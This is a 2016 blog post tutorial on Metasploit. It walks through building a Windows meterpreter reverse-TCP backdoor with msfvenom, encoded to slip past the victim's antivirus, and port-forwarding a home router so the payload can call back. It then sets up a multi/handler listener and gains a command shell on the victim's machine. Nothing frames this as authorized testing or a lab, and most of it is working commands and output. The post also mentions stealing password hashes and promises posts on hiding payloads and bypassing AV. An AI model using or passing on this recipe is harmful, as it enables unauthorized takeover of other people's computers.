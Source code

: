 ```yaml
---
layout:     post
comments:   true
title:      "Beginner's Guide to Metasploit"
subtitle:   "Super l33t h4x0r time!"
date:       2016-03-27 12:00:00
author:     "ex0dus"
header-img: "img/PostBG/post-bg-06.png"
---
```


<p>Due to popular request, I'm going to teach Metasploit.</p>
<p><b>Metasploit</b> is a pen testing framework suite written in the Ruby programming language. People use Metasploit to commonly gain access to a computer, through exploits, which find flaws, whether in the system or software the victim has and allows you to gain access.</p>
<p>It is pretty complicated, so I will be covering some of the essentials in a simple tutorial. 
We will set up a basic so-called "virus". Technically it’s a payload that acts as a backdoor, so that once the user executes it, you get ahold of their computer.</p>
<p>This tutorial will mostly base around the premise that your target is outside your network, so there is going to be a little configuration.</p>
<h2 class="section-heading">Installing</h2>
<p> If you are on Kali Linux, which is recommended, metasploit is automatically installed, as I have said before. Simply type <b>"msfconsole"</b> to get started. I recommend using the Linux version. The Windows version is pretty limited and is kind of shit. If you are on Ubuntu like me, and want to install it, good luck. This was probably one of the hardest things I've ever done. You might as well use Kali on VM if you can't install it. But if you are hardcore, click <a href="http://www.darkoperator.com/installing-metasploit-in-ubunt/"><b>Here</b></a>
<h2 class="section-heading">Getting Started</h2>
1. Type "ifconfig" in your terminal. Obtain your inet address, most likely in wlan0 or eth0 (it should be 192.168.x.x for most). This is your computers given address on your network. 
<img src="/img/BeginnersGuideToMetasploit/ifconfig.png">
2. Open your router settings. This is achieved by typing 192.168.1.1 in your browser (search it up if it isn't it. Every router brand is different. I use a Verizon router).
<img src="/img/BeginnersGuideToMetasploit/verizonlogin.png">
3. Find out where port forwarding is. There may be a tab called “Firewall” you might have to click. Again, all router brands are different in terms of settings and configuration, so you might have to go on the Internet and search it up. For my Verizon router, there is a tab called “Firewall”. After clicking on it, I get routed to another page, where this a tab on the side called “Port Forwarding”.
<img src="/img/BeginnersGuideToMetasploit/firewallportfor.png">
4. Enter the IP address you had previously, the one for your computer. Port forward port “4444”. What will happen is, when you receive a request for a connection to your public IP address through port 4444, it will be rerouted to your local IP. It’s kind of like a map. Port forwarding is me building a shortcut. 
5. In your terminal, we will make our payload. Type:
<pre><code class="language-bash">msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00′ LHOST=[your PUBLIC IP] LPORT=4444 -f exe > payload.exe</code></pre>
Let’s break this down. <b>MSFvenom</b> is the payload creation script (it was originally msfpayload). <b>–P</b> is the parameter to pass that signifies what kind of payload we are creating. In this case, we are creating a <b>windows/meterpreter/reverse_tcp</b> one. This kind of payload will create a shell called Meterpreter, which is like the Command Line, but for hackers. I’ll get to it later. <b>–E x86/shikata_ga_nai</b> is the parameter for encoding the payload using shikata_ga_nai, where we mask it so that the victim’s anti-virus won’t detect the payload, since it is technically, a virus. Encoding a payload using MSFvenom isn’t really effective anymore, but it is for the sake of demonstration. Don’t worry, there are ways to mask payloads and bypass AV. I will talk about it later. <b>–I 5</b> means we encode it 5 times. <b>–B ‘x/00’</b> has something to do with shellcode, and we won’t really get into it. Now however the next part, LHOST and LPORT is important. You will enter your public IP address in LHOST. Public, not the 192.168.x.x one. Your LPORT will be 4444. This means that once the victim opens the payload, a connection will be sent to your public IP, and it will forwarded to your local IP (the 192.168.x.x one), where a listener will be set up (we will do this in the next 2 steps).
6. After you press enter, the payload will generate. Open another terminal and type “msfconsole”. You will see an interpreter-style-thingy like this:
<img src="/img/BeginnersGuideToMetasploit/msfcli.png">
7. After your payload is generated, it should be in your /root/ directory. Leave it where it is for now. In your terminal with Metasploit open, type 
<pre><code class="language-bash"><b>msf ></b> use exploit/multi/handler</code></pre>
8. This is the handler that will be set up to handle the incoming request from the victim's computer. Now type in:
<pre><code class="language-bash"><b>msf exploit(handler) ></b> set LHOST=[your LOCAL IP here]</code></pre>
9. We will establish a listener that will listen for the request. It will be hosted on your computer, hence the LOCAL IP.
<pre><b>msf exploit(handler) ></b>set LPORT=4444</pre>
10. This establishes the port. Now type:
<pre><b>msf exploit(handler) ></b>show options</pre>
11. Everything should be set and in place. Now type run:
<pre><code class="language-bash"><b>msf exploit(handler) ></b>run
12. You will see something like:
[*]Started reverse handler on 192.168.x.x:4444
[*]Starting the payload handler…</code></pre>
13. You have set up your handler and listener! Now in order to get a Meterpreter shell, a victim needs to open your payload. Doing so, a connection will be sent back, and your listener will intercept the connection and the handler will start a meterpreter session, which looks like:
<pre><b>meterpreter></b></pre>
14. Congrats! You learnt the basics of Metasploit. Now you may ask, what to do with meterpreter? Well, here’s an example:
<pre><code class="language-bash"><b>meterpreter></b> shell
Process 2314 created
Channel 1 created
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
<b>C:\Windows\System32></b></code></pre>

This establishes a Windows Command Prompt shell and now you have access over the victim's computer!
You can do much more with Meterpreter. You can take a screeshot of the victim's computer, see system processes, steal hash, etc. Here’s a list:
<a href="http://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/"><b>Null Byte</b></a>

<p> Well that is all. This article was probably a little dull, but I will soon elaborate on this tutorial. I will talk about exploitation through obfuscating payloads in PDF files, text documents, videos, etc. I will also talk about bypassing AV (anti-virus), since many modern day AVs detect these Metasploit payloads as viruses and backdoors. </p>

<h2> Thanks for reading! Of course, I will be back to make more soon. If you ever have any inquiries or concerns, I have set up a Contact Form in the <b>Contact</b> section of this site! Please do not hesistate to use it.</h2>